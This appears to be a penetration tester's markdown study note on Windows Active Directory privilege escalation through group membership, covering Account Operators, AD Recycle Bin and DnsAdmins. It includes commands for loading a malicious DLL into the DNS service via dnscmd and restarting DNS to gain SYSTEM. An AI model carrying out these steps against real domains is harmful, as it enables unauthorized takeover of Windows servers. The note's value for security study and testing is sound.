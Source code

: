 ```yaml
---
type: info
scope: [privesc]
aliases: []
related: []
created: 15-03-2023 17:32
---
```

%%
related::
%%

#todo 

## Overview
- When enumerating users should find their group memberships
	- Certain groups can exploit for privesc
- Notes
	- *When forget groups, just Google `<group> exploit`*

## Privileged Groups
1. [[#1. Account Operators]]
2. [[#AD Recycle Bin]]

### 1. Account Operators
- Add domain users (non-admins)
	- `net user add <name> <password> /domain`

### 2. AD Recycle Bin
- Read deleted AD objects
	- `Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *`

## 3. DnsAdmins
- Can load malicious DLL to DNS server that runs on startup
	1. Upload DLL
	2. Restart DNS
- DNS is usually run as the `SYSTEM` user which has **Administrator privileges**
- Generating DLL
	- [[Metasploit|msfvenom]]
	- [[Netcat|nc]]
- Transferring DLL
	- [[Kali-Win File Transfer]]

**Steps**
```powershell
# 1. get hostname
hostname

# 2. load dll
dnscmd.exe \\<hostname> /config /serverlevelplugindll <dll_path>

# 3. restart dns
sc.exe \\<hostname> stop dns
sc.exe \\<hostname> query dns
sc.exe \\<hostname> start dns

# note
# - \\<hostname> might work with IP addresses
```

## References
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges
